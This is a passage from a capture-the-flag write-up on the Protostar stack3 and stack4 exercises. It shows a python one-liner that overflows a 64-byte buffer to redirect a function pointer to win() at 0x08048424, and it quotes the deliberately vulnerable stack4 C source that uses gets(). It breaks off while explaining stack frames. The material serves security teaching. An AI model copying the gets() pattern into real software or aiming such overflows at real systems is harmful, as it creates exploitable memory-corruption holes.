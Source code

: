 Input is provided through standard input, the same as in challenge Stack0.

This challenge demonstrates how the execution flow can be controlled when a
stack overflow allows for the control of a function pointer.

First, we must find the address of the function ```win```:

```
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep "win"
08048424 <win>:
```

objdump reveals that win is at address **0x08048424**. This is the value we want
to write to the overflown variable.

```
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack4

### Description

https://exploit-exercises.com/protostar/stack4/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### Write-up

This challenge is fun, we have a function that isn't called, and no function
pointer to overflow. Let's find a way to call it.

In order to control execution, we have to understand the concept of stack frames
and the calling convention for the system in use in assembly. Here, we're in a
32 bit Linux environment, and we're using the *cdecl* calling convention. Let's
not dive into the detail of what that means, but let's examine what it means
concerning our stack. The stack will have a *frame* set up as such:
